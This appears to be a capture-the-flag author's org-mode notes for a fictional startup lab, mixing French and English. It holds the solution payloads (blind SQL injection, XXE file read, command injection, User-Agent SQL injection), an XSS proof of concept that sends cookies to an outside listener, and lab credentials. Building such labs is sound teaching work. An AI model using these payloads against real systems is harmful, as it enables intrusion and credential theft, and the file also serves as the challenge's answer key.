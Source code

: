 * Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
*** Flags
    - Trouver la liste de email des employés pour du spear phishing
      - Il faut écrire un script de parsing
    - 
    
** Startup 2 — Dawg
   - Comme Bro dans Silicon Valley
   - Les users peuvent payer pour envoyer des « Super Dawg »
     - Et donc, carte de crédits disponibles

* Solutions
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (5=substr((select key_guid from apikeys limit 1,1),2,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>

** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
*** SQL login → logging:JF8KI4iYQWNbjWtn

** DONE Steal the CEO's cookies
   CLOSED: [2017-03-01 Wed 23:14]
*** PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** In Process Extract the banking info from /home/sysadmin/banking.txt.pgp
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Decrypted file content
    Bank account
    ------------
    SWIFT/BIC: FLAG-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** TODO Make mysql start automatically
** TBD Fix images in team (CFO/CTO)
** TODO Make API documentation in HTML
** TBD Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** DONE Implement a XSS bot for the CEO's account
   CLOSED: [2017-03-08 Wed 00:16]
   See ./src/wtiiaas/scripts/xss.js
** WONTFIX Make the instructions HTML
** Privilege escalation from RCE
   Bash crontab running as sysadmin, banking file is owned by sysadmin
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** In Process Clean database before export
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** TODO Fix Dockerfile
** TODO Make webserver non www-data read-ONLY
** TODO Modify root password from ENV variable that will be set when container is RUN
* Notes
** PhantomJS
   Jane Harden jane.harden@wtiiaas.csg : SupeReLitePassWerd12--@@ : 5d3ee89d46ec1c979f63dc8d780841e6
* Instructions
Camarades, l'heure est grave. Les écrits du camarade Mao s'avèrent véridique: l'impérialisme de l'Ouest prend notre patrie en otage! Voilà pourquoi nous avons créés une unité super-méga-secrète qui nous permettera de partir en cyber-guerre contre ces américains assoiffés de profit! Ces jeunes programmeurs milliardaires de 20 ans causent un embarras incomensurable à la patrie, nous nous devons de lutter!

Votre mission est de vous infiltrer dans le parc informatique d'une startup « high-tech » américaine et d'exfiltrer un maximum d'information. Cette informatoin sera ensuite relayée au politburo du Comité central du parti Communiste.

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 
